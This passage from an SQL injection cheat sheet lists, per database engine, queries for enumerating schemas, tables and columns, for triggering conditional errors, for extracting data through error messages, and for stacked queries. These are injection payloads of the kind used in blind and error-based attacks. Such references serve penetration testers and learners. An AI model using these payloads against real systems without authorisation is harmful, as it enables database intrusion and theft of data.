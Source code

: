 ```sql
select schema_name from information_schema.schemata
select table_name from information_schema.tables where table_schema='database'
select column_name from information_schema.columns
```

### Conditional errors

- Oracle

```sql
select case when('CONDITION') then to_char(1/0) else NULL end from dual
```

- Microsoft

```sql
select case when('CONDITION') then 1/0 else NULL end
```

- PostgreSQL

```sql
1 = (select case when ('CONDITION') then 1/(select 0) else NULL end)
```

- MySQL

```sql
select if('CONDITION',(select table_name from information_schema.tables),'a')
```

### Extracting data via visible error messages

- Microsoft

```sql
select 'foo' where 1=(select 'test')
> Conversion failed when converting the varchar value 'test' to data type int.
```

- PostgreSQL

```sql
select cast((select 'test') as int)
> invalid input syntax for integer: "test"
```

- MySQL

```sql
select 'foo' where 1=1 and extractvalue(1,concat(0x5c,(select 'test')))
> XPATH syntax error: '\test'
```

### Batched (or stacked) queries

- Microsoft

```sql
select 'query1'; select 'query2'
select 'query1' select 'query2'
```
